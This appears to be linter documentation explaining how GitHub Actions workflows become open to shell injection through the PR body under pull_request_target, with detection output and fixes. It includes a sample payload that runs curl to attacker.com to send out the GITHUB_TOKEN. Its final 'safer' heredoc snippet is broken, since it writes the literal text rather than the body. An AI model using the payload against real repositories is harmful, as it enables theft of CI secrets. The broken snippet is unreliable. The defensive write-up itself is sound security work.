

# GHSL-2025-089: Code Injection via PR Body in pull_request_target

## Summary

| Item | Value |
|------|-------|
| Advisory ID | GHSL-2025-089 |
| Severity | Critical |
| Affected Component | ydb-platform/ydb |
| CVE | N/A |
| CWE | CWE-78 (OS Command Injection) |
| Reference | https://securitylab.github.com/advisories/GHSL-2025-089_ydb-platform_ydb/ |

## Vulnerability Description

GHSL-2025-089 is a code injection vulnerability in GitHub Actions workflows that occurs when:

1. A workflow is triggered by `pull_request_target` event
2. The workflow uses `${{ github.event.pull_request.body }}` directly in a `run:` script
3. The PR body content is controlled by the attacker

This pattern allows attackers to execute arbitrary commands with elevated privileges (access to repository secrets and write permissions).

## Attack Vector



## Vulnerable Code Pattern

```yaml
name: Validate PR Description
on:
  pull_request_target:
    types:
      - opened
      - edited
    branches:
      - main
      - 'stable-*'

jobs:
  validate-pr-description:
    runs-on: ubuntu-latest
    steps:
      - name: Validate PR description
        # VULNERABLE: github.event.pull_request.body is user-controlled
        run: |
          echo "${{ github.event.pull_request.body }}" > pr_body.txt
          # ... validation logic
```

### Why This Is Dangerous

1. **User-Controlled Input**: `github.event.pull_request.body` is entirely controlled by the PR author
2. **Privileged Context**: `pull_request_target` runs with repository secrets and write permissions
3. **Shell Injection**: Even with double quotes, shell metacharacters like `$(...)`, backticks, or `"...; cmd; "` can escape
4. **Silent Execution**: The attacker can hide malicious code within seemingly normal PR descriptions

### Example Attack Payload

An attacker creates a PR with the following body:

```
## Description
This PR fixes a bug.

"; curl -X POST https://attacker.com/steal -d "token=$GITHUB_TOKEN"; echo "

## Testing
Tested locally.
```

When the workflow runs `echo "${{ github.event.pull_request.body }}"`, the shell interprets:
```bash
echo "## Description
This PR fixes a bug.

"; curl -X POST https://attacker.com/steal -d "token=$GITHUB_TOKEN"; echo "

## Testing
Tested locally."
```

The injected `curl` command executes with access to the workflow's secrets.

## sisakulint Detection

sisakulint detects this vulnerability with the `code-injection-critical` rule:

### Detection Output

```
script/actions/ghsl/ghsl-2025-089.yaml:31:16: "${{ github.event.pull_request.body }}" is
potentially untrusted. Avoid using it directly in inline scripts. Instead, use an
intermediate environment variable. (triggers: pull_request_target)
[code-injection-critical]
```

### Detection Conditions

| Condition | Description |
|-----------|-------------|
| Privileged Trigger | `pull_request_target`, `issue_comment`, or `workflow_run` |
| Untrusted Expression | `github.event.pull_request.body` (or other untrusted contexts) |
| Inline Script | Expression used directly in `run:` script |

### Untrusted Contexts Detected

| Context | Risk Level |
|---------|------------|
| `github.event.pull_request.body` | Critical |
| `github.event.pull_request.title` | Critical |
| `github.event.issue.body` | Critical |
| `github.event.issue.title` | Critical |
| `github.event.comment.body` | Critical |
| `github.event.review.body` | Critical |
| `github.head_ref` | Critical |

## Remediation

### Option 1: Use Environment Variables (Recommended)

```yaml
- name: Validate PR description
  env:
    PR_BODY: ${{ github.event.pull_request.body }}
  run: |
    echo "$PR_BODY" > pr_body.txt
    # Validation logic...
```

Environment variables are not subject to shell interpretation of `${{ }}` expressions.

### Option 2: Use GitHub Script Action

```yaml
- name: Validate PR description
  uses: actions/github-script@v7
  with:
    script: |
      const prBody = context.payload.pull_request.body;
      const fs = require('fs');
      fs.writeFileSync('pr_body.txt', prBody);
      // Validation logic in JavaScript (safer)
```

### Option 3: Use Dedicated Validation Action

```yaml
- name: Validate PR description
  uses: some-org/pr-validator@v1
  with:
    required-sections: "Description,Testing"
```

## Auto-Fix Support

sisakulint provides auto-fix for this vulnerability:

```bash
# Preview the fix
sisakulint -fix dry-run script/actions/ghsl/ghsl-2025-089.yaml

# Apply the fix
sisakulint -fix on script/actions/ghsl/ghsl-2025-089.yaml
```

The auto-fix will:
1. Extract the untrusted expression to an environment variable
2. Replace the `${{ }}` expression with the environment variable reference

### Before Auto-Fix

```yaml
- name: Validate PR description
  run: |
    echo "${{ github.event.pull_request.body }}" > pr_body.txt
```

### After Auto-Fix

```yaml
- name: Validate PR description
  env:
    PR_BODY: ${{ github.event.pull_request.body }}
  run: |
    echo "$PR_BODY" > pr_body.txt
```

## Additional Security Considerations

### Never Trust User Input in Privileged Contexts

In `pull_request_target`, `issue_comment`, and `workflow_run` triggers, the following are user-controlled:

- PR/Issue title and body
- Comment body
- Branch names (`github.head_ref`)
- Commit messages
- Author names

### Use Proper Input Validation

Even with environment variables, validate and sanitize input before using it in sensitive operations:

```yaml
- name: Validate PR description
  env:
    PR_BODY: ${{ github.event.pull_request.body }}
  run: |
    # Limit input length
    if [ ${#PR_BODY} -gt 10000 ]; then
      echo "PR body too long"
      exit 1
    fi
    # Use here-doc for safer file writing
    cat << 'EOF' > pr_body.txt
    $PR_BODY
    EOF
```

## Test Files

- Vulnerable pattern: `script/actions/ghsl/ghsl-2025-089.yaml`

## References

- [GitHub Security Lab Advisory](https://securitylab.github.com/advisories/GHSL-2025-089_ydb-platform_ydb/)
- [GitHub Actions: Preventing pwn requests](https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/)
- [GitHub Actions: Security hardening](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)
- [OWASP CI/CD Top 10: CICD-SEC-4](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-04-Poisoned-Pipeline-Execution)
